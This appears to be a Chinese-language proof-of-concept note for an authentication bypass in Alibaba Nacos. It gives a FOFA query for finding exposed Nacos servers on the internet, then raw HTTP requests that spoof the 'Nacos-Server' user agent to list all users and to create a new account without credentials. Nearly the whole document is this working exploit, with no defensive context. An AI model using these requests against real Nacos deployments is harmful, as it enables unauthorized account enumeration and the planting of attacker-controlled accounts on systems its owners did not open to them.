


# Alibaba Nacos认证绕过

## 搜索资产
`fofa：title="Nacos"`

## POC：
#### 查看用户：
```shell
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```


#### 添加用户：
```shell
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```
